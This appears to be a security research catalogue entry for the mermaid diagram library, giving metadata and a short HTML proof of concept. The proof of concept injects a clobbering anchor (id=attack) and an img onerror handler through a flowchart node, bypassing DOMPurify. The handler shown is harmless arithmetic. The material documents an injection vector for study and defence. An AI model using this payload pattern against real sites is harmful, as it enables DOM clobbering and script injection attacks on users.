 ## mermaid

### Meta

+ Library: mermaid
+ Version: v0.1.4
+ Stars: 70.6K
+ Fingerprint: `document.getElementsByClassName('mermaid').length > 0`
+ Input: Input
+ Sanitizer: DOMPurify
+ Capability: Any named property without collision
+ CVE: N/A
+ Status: N/A

### Library

https://github.com/mermaid-js/mermaid

### Vulnerable Code Snippet

### PoC 

```html
<!--Library-->
<script type="module">
  import mermaid from 'https://cdn.jsdelivr.net/npm/mermaid@11/dist/mermaid.esm.min.mjs';
</script>
<!--Library-->


<!--Payload-->
<pre class="mermaid">
  flowchart TD
      A[<a id=attack>hello</a><img src=a onerror=2+2 >] -->|Get money| B(Go shopping)
      B --> C{u}
</pre>
<!--Payload-->
```